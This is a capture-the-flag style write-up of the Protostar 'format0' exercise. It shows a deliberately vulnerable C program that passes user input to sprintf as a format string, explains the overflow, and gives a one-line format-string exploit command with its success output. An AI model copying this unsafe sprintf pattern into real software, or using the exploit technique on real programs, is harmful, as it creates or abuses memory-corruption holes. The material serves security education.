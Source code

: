 
# Format 0

https://exploit-exercises.com/protostar/format0/

## Goal

To set `target` to `0xdeadbeef`.

## Source Code

format0.c

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

## Exploit

This one took a little bit of learning about format strings. First, it's important to note that this program is vulnerable to a buffer
overflow. You could just pass 64 bytes of some characters and then `0xdeadbeef` into the string, and that would overwrite `target`. 
However, we can also do this shorter because of the format string vulnerability. 

First, we still will keep our goal of writing 68 bytes into buffer (the last 4 being `0xdeadbeef`). First, a little bit about format
strings. Format strings will read some amount of information into the buffer in `sprintf`. After some research, I discovered that `%64x`
reads 64 bytes into the format string. It doesn't really matter where these bytes come from, but they come from the stack, which means
that format string vulnerabilities can also leak information to others. Thus, our strategy will be to read 64 bytes into the buffer using
`%64x` and then read `0xdeadbeef` into buffer.

Final output:
```
$ ./format0 $(python -c 'print "%64x\xef\xbe\xad\xde"')
you have hit the target correctly :)
```

